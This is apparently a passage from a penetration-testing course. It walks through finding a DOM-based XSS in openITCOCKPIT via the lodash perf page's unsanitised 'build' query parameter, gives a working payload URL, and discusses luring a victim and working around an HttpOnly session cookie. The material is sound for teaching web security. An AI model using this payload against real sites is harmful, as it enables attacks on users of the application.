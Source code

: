 kali@kali:~/packages$ grep -r "buildPath[[:space:]]*=" ./ 
./lodash-3.9.3/test/asset/test-ui.js:  ui.buildPath = (function() {
./lodash-3.9.3/perf/asset/perf-ui.js:  ui.buildPath = (function() {
Listing 12 - Searching for buildPath

The search revealed two files: asset/perf-ui.js and asset/test-ui.js. Listing 11 shows that ./asset/perf-ui.js is loaded into the HTML page that is being targeted. Let's open the perf-ui.js file and navigate to the section where buildPath is set.

kali@kali:~/packages$ cat ./lodash-3.9.3/perf/asset/perf-ui.js
...
  /** The lodash build to load. */
  var build = (build = /build=([^&]+)/.exec(location.search)) && decodeURIComponent(build[1]);
...
  // The lodash build file path.
  ui.buildPath = (function() {
    var result;
    switch (build) {
      case 'lodash-compat':     result = 'lodash.compat.min.js'; break;
      case 'lodash-custom-dev': result = 'lodash.custom.js'; break;
      case 'lodash-custom':     result = 'lodash.custom.min.js'; break;
      case null:                build  = 'lodash-modern';
      case 'lodash-modern':     result = 'lodash.min.js'; break;
      default:                  return build;
    }
    return basePath + result;
  }());
...
Listing 13 - perf-ui.js

The ui.buildPath is set near the bottom of the file. A switch returns the value of the build variable by default if no other condition is true. The build variable is set near the beginning of the file and is obtained from location.search (the query string) and the value of the query string is parsed using regex. The regex looks for "build=" in the query string and extracts the value. We do not find any other sanitization of the build variable in the code. At this point, we should have a path to DOM XSS through the "build" query parameter!

Soln:
```
https://openitcockpit/js/vendor/lodash/perf/index.html?build=x%22%20onerror=%22alert(1)
```

##### What We Can and Can't Do

A reflected DOM-based XSS vulnerability provides limited opportunities. Let's discuss what we can and can't do at this point.

First, we will need a victim to exploit. Unlike stored XSS, which can exploit anyone who visits the page, we will have to craft a specific link to send to a victim. Once the victim visits the page, the XSS will be triggered.

If we use Burp to inspect any of the requests and responses sent to and from the application, we may notice a cookie named itnovum. Since we don't have credentialed access to the application, we can only assume that this is the cookie used for session management. Under the Storage tab in Firefox's developer tools, we find that the cookie also has the HttpOnly1 flag set. This means that we won't be able to access the user's session cookie using XSS. Instead of stealing the session cookie, we will have to find a different way to get information about the victim and the host.
